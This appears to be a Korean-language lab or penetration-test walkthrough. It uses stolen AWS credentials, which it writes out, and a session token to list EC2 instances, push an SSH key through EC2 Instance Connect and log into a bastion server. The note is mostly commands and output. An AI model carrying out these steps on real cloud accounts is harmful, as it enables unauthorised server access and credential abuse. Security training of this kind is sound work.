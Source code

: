 **공격자 피시에서 진행**
먼저 awscli 설치  (https://ko.linux-console.net/?p=22015)

```
// 버전 확인
/usr/local/bin/aws --version
aws-cli/1.29.78 Python/3.11.4 Linux/6.1.0-kali9-amd64 botocore/1.31.78

// aws 설정 작업 앞서 찾아둔 값 입력 
aws configure 

AWS Access Key ID [None]: ASIAX7VPRS2F75INO6YM
AWS Secret Access Key [None]: 6n2K0SxDxiMWIQ333T5czJ7aqbwYQKrWrLAH1aTi
Default region name [None]: ap-northeast-2
Default output format [None]: json

// .aws 로 이동 
cd ~/.aws 

// token 값 추가 
vim credentials
제일 하단에 
aws_session_token = 탈취한 토큰값 추가 
```

**instances 항목 확인**
```
aws ec2 describe-instances 
```

**ssh-key 생성**
```
ssh-keygen -t rsa -f gotobas   
```

**공개키 업로드**
여기서 사용할 instance id 는 앞서 확인한 instances 항목에서 확인한다
instances 항목에서 bastion 서버를 찾아서 해당 instanceid를 입력한다. 
user ubuntu 는 추측으로 찾는다. 
```
aws ec2-instance-connect send-ssh-public-key \
--instance-id i-09efaccd654290737 \
--availability-zone ap-northeast-2c \
--instance-os-user ubuntu \
--ssh-public-key file://gotobas.pub

{
    "RequestId": "1188e55d-6c4b-4cb8-885d-39bb458a01ca",
    "Success": true
}
```

결과 나온 후 바로
뒤 ip는 동일하게 instaces항목에서 bastion서버에의 public ip를 확인한다. 
```
//ssh 접속 
ssh -i gotobas ubuntu@54.180.107.5  

...
ubuntu@ip-10-0-1-158:~$  // 바스티온 서버 접속 확인 

```
